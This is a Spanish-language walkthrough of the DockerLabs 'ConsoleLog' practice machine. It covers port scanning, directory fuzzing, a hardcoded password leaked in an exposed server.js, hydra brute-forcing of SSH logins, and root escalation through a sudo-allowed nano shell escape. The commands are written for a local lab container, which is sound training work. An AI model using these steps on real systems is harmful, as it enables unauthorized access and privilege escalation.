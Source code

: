 ```yaml
---
icon: flag
---
```


# ConsoleLog DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip consolelog.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh consolelog.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 14:19 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000027s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Mi Sitio
3000/tcp open  http    Node.js Express framework
|_http-title: Error
5000/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f8:37:10:7e:16:a2:27:b8:3a:6e:2c:16:35:7d:14:fe (ECDSA)
|_  256 cd:11:10:64:60:e8:bf:d9:a4:f4:8e:ae:3b:d8:e1:8d (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```

Vemos que el `SSH` esta en el puerto `5000` de primeras, si entramos en el puerto `80` veremos una pagina aparentemente normal, pero si realizamos un poco de `fuzzing` veremos lo siguiente:

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/backend              (Status: 200) [Size: 1563]
/index.html           (Status: 200) [Size: 234]
/javascript           (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos un directorio bastante interesante llamado `/backend` y si entramos dentro el unico archivo que nos va a interesar es el llamado `server.js` que contendra lo siguiente:

## Escalate user lovely

```javascript
const express = require('express');
const app = express();

const port = 3000;

app.use(express.json());

app.post('/recurso/', (req, res) => {
    const token = req.body.token;
    if (token === 'tokentraviesito') {
        res.send('lapassworddebackupmaschingonadetodas');
    } else {
        res.status(401).send('Unauthorized');
    }
});

app.listen(port, '0.0.0.0', () => {
    console.log(`Backend listening at http://consolelog.lab:${port}`);
});
```

Vemos que es una posible contraseña de algun usuario del sistema, por lo que intentaremos realizar fuerza bruta con `hydra`:

## Hydra

```shell
hydra -L <WORDLIST> -p lapassworddebackupmaschingonadetodas ssh://<IP> -s 5000 -t 64 -I 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-21 14:28:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 624370 login tries (l:624370/p:1), ~9756 tries per task
[DATA] attacking ssh://172.17.0.2:5000/
[STATUS] 505.00 tries/min, 505 tries in 00:01h, 623907 to do in 20:36h, 22 active
[STATUS] 441.00 tries/min, 1323 tries in 00:03h, 623092 to do in 23:33h, 19 active
[STATUS] 383.00 tries/min, 2681 tries in 00:07h, 621736 to do in 27:04h, 17 active
[5000][ssh] host: 172.17.0.2   login: lovely   password: lapassworddebackupmaschingonadetodas
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Y vemos que obtenemos las credenciales del usuario `lovely`, por lo que nos conectaremos por `ssh`.

## SSH

```shell
ssh lovely@<IP> -p 5000
```

Metemos como contraseña `lapassworddebackupmaschingonadetodas` y veremos que estamos dentro como dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for lovely on 1db80b165ab8:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User lovely may run the following commands on 1db80b165ab8:
    (ALL) NOPASSWD: /usr/bin/nano
```

Veremos que podemos ejecutar el binario `nano` como el usuario `root` por lo que haremos lo siguiente:

```shell
sudo nano
^R^X
reset; bash 1>&0 2>&0
```

Info:

```
root@1db80b165ab8:/home/lovely# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
